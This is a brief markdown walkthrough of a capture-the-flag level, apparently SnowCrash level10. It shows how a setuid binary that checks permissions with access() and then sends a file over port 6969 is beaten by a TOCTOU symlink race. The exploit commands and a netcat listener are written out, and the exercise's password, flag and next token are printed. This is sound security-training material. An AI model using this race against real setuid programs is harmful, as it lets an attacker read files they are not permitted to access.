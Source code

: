# Solve Level10
pass : s5cAJpM8ev6XHw998pRWG728z

## Description
- home
    - -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
    - -rw-------  1 flag10  flag10     26 Mar  5  2016 token

### level10
- The binary takes 2 args, a file to send and an host
- He create a connection on port 6969 and send the file if we have perms
    - we can use nc to create a server on our machine or on snowcrash ```nc -l -p 6969``` | ```nc -l 6969```
    - then ```./level10 file/to/send my_machine_ip```
      - it works, now we must find a way to send token ; ln does not work
      - we use decompiler and see the use of access ==> which can be exploit
        - cf TOCTOU [source][https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use]

## Solution
```bash
cd /tmp
echo pouet > pouet
ln -fs pouet link
ln -fs ~/token link & ~/level10 /tmp/link 127.0.0.1
```

- flag10 : woupa2yuojeeaaed06riuj63c
- level11 : feulo4b72j7edeahuete3no7c


## Resolve problem
